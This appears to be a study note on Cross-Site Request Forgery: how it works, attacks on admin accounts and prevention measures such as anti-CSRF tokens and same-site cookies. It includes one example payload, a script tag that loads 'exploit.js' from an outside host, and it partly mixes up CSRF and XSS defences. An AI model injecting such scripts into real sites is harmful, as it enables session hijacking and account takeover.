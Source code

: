 **Cross-Site Request Forgery (CSRF) Vulnerabilities and Prevention**
- **Definition**:
    - CSRF attacks exploit the trust that a web application has in a user's browser. By tricking a victim into executing malicious requests on a web application where they are authenticated, attackers can perform actions on behalf of the victim.
- **How CSRF Works**:
    - **Exploitation**: CSRF attacks can leverage existing vulnerabilities, including XSS or HTTP parameter attacks, to make unauthorized requests as an authenticated user.
    - **Example**: A common attack involves embedding JavaScript payloads in malicious content (e.g., comments) that automatically execute when viewed by the victim. This script might change the victim's password or perform other actions using their current session.
- **Attacking Admins**:
    - CSRF can target admin accounts, which often have elevated privileges. Successful attacks might allow attackers to perform actions that could compromise the back end server or perform administrative functions maliciously.
- **Example of CSRF Payload**:
    - **JavaScript Payload**: `<script src=//www.example.com/exploit.js></script>`
        - **Details**: `exploit.js` contains malicious code that changes the victim's password or performs other unauthorized actions. The payload relies on the victim being logged in and executing the JavaScript code within their session.
- **Prevention**:
    - **Sanitization**: Remove special and non-standard characters from user input before displaying or storing it to prevent injection attacks.
    - **Validation**: Ensure user input matches the expected format, such as validating email addresses or other data fields.
    - **Sanitizing Output**: Clear special or non-standard characters from output to avoid rendering malicious content.
    - **Web Application Firewall (WAF)**: Implement a WAF to detect and block injection attempts. However, rely on WAFs as a supplementary measure, not the primary defense.
    - **Anti-CSRF Measures**:
        - **Anti-CSRF Tokens**: Use tokens that must be included in forms and requests to verify that they originate from the legitimate user.
        - **HTTP Headers**: Utilize `X-Requested-With` headers or other security headers to identify and prevent unauthorized requests.
        - **Browser Measures**: Many modern browsers have built-in anti-CSRF protections, like same-site cookies and blocking automatic script execution.
- **Additional Notes**:
    - **Functional Measures**: Implement additional security checks, such as requiring re-authentication before performing sensitive actions like password changes.
    - **Best Practices**: Always follow coding best practices to minimize vulnerability to CSRF and related attacks.

For further details on CSRF attacks and prevention measures, refer to the Cross-Site Request Forgery Prevention Cheat Sheet by OWASP.
